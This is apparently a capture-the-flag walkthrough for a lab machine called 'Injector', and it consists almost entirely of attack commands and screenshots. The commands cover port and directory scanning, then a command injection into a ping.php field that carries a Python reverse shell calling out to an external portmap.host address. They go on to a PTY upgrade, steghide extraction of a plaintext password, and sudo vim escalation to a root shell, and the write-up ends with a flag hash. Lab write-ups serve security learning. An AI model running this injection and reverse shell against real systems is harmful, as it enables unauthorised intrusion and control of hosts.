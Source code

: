 # Injector

```
nmap -sC -sV 10.10.10.10
```

<img width="870" height="326" alt="image" src="https://github.com/user-attachments/assets/bada1cf8-b495-474f-8cfb-3f9c7b77105b" />


```
dirsearch -u http://172.24.170.117/
```

<img width="657" height="110" alt="image" src="https://github.com/user-attachments/assets/97c6818a-6734-45c3-8e38-152a5a4d988b" />


```
dirsearch -u http://172.24.170.117/secret/ -e php -x 404,403
```

<img width="830" height="362" alt="image" src="https://github.com/user-attachments/assets/7b9f184d-ea92-49ab-9fa2-048ba7f82576" />


----

```
http://54.151.66.45/secret/tools/ping.php
```

<img width="1116" height="311" alt="image" src="https://github.com/user-attachments/assets/9f7af11e-f659-4c54-be09-8f5a11a22802" />


```
127.0.0.1; python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("FRANKISHTIEN-64015.portmap.host",64015));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


<img width="672" height="158" alt="image" src="https://github.com/user-attachments/assets/7efc4ec7-a7ba-4237-b010-b143ac772e21" />


```
python3 -c 'import pty,os; pty.spawn("/bin/bash")'
```


<img width="665" height="117" alt="image" src="https://github.com/user-attachments/assets/fcee3f31-1c75-4c97-b9db-5ec05cd245d8" />

```
## on server
python3 -m http.server 8888
## on my kali
wget http://54.151.66.45:8888/TrollFace.jpg
```


<img width="614" height="132" alt="image" src="https://github.com/user-attachments/assets/f753c363-a0f0-40a5-bd50-df43dd0eab26" />

## user alex

```
steghide extract -sf TrollFace.jpg 
```

<img width="956" height="297" alt="image" src="https://github.com/user-attachments/assets/c5f5d0e0-0d68-4498-a74f-4e2978015be5" />


```
D0n41dTrump
```


```
su alex
```


<img width="569" height="161" alt="image" src="https://github.com/user-attachments/assets/a7bbc294-c4c3-405c-9448-cef658fb0dcb" />


```
sudo -l
```

<img width="960" height="193" alt="image" src="https://github.com/user-attachments/assets/422eefaa-804b-463f-8bd6-0029dff3ad3d" />


[gtfobins](https://gtfobins.github.io/gtfobins/vim/#sudo)



```
sudo vim -c ':!/bin/sh'
```


<img width="913" height="514" alt="image" src="https://github.com/user-attachments/assets/b82388d9-c60f-4ddb-87c8-020cb1f0a0ee" />

```
2afe5ca13f6aa7c615c05d9cceb6c23e
```








